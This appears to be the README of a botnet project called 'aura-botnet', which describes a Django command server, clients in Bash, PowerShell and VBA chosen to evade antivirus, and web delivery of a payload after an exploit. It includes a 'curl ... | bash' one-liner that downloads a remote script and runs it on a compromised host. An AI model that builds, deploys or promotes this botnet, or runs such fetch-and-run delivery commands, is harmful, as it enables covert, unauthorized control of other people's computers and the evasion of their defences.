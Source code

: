 # aura-botnet

Overview
---
Aura is a botnet utilizing Django as the backend because of its
portability. It is currently configured with a simple setup for mysql
but can easily be configured for sqlite or postgresql thanks to Django.

The clients will be written in Bash, Powershell, and VBA for guaranteed
compatibility on their respective operating systems, as well as a
significantly decreased chance of detection by the bot's antivirus.

Client Web Delivery
---
The *static* folder contains files to be served by a web server, preferably
nginx which serves static files very efficiently. It contains the packged
payload and a script that can easily be called from a command line. This
makes it easy to use it with any exploit that can run arbitrary code. An example
would be:

```
curl http://server-name/welcome/linux/ | bash
```

Misc.
---
The *Killswitch* folder contains scripts for easy removal.

<b>*This is currently a repo for testing, so several files will be configured to run or communicate on localhost*</b>
